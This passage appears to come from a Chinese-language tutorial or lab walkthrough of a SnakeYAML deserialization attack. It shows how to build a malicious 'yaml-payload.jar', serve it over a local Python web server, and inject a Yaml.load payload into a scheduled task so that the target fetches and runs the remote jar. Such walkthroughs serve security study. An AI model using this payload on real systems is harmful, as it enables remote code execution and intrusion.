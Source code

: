 ![image-20240305230802764](assets/1710465660-55f240d8db7b39750dd2ba564002da3b.png)

2）把项目生成 jar 包

```php
javac src/artsploit/AwesomeScriptEngineFactory.java　　　　//编译 java 文件
jar -cvf yaml-payload.jar -C src/ .　　　　　　　　　　　　　//打包成 jar 包
```

3）在 yaml-payload.jar 根目录下起一个 web 服务

```php
python -m http.server 9999
```

4）在计划任务添加 payload，执行

```php
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:9999/yaml-payload.jar"]]]]')
```

![image-20240305232500918](assets/1710465660-d457134248de11be506acf6714bb0b61.png)
